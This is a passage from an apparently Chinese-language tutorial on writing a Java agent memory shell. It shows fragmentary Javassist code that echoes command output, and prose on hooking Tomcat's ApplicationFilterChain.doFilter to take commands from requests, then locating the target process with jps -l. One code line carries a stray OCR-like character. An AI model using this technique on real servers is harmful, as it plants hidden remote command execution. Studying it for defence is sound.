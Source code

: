 ```JAVA
                        "        while ((line=reader.readLine()) != null){\n" +
                        "            sb.append(line).append(\"\\n\");\n" +
                        "        }\n" +
                        "        response.getOutputStream().print(sb.toString());\n" +
                        "        response.getOutputStream().flush();\n" +
                        "        response.getOutputStream().close();\n" +
                        "    } catch (Exception e){\n" +r
                        "        e.printStackTrace();\n" +
                        "    }\n" +
                        "}");
                byte[] bytes = c.toBytecode();
                // 将 c 从 classpool 中删除以释放内存
                c.detach();
                return bytes;
            } catch (Exception e){
                e.printStackTrace();
            }
        }
        return new byte[0];
    }
}
```

打包成jar,我们的代理类就处理完成了,这里我们选择对"org.apache.catalina.core.ApplicationFilterChain"进行一个增强,因为在我们的请求时,会调用Filter进行判断,而且该类的doFilter方法传入了request和response,如果我们对其进行重写,那么我们就可以通过request获取我们想要的命令,还可以搞一些回显之类的。

![image-20211003174515337](Javaagent/image-20211003174515337.png)



agent编写完成了,接下来就是如何进行一个注入,可以使用jps -l命令查看当前的进程id和对应的类

![image-20211003175019140](Javaagent/image-20211003175019140.png)
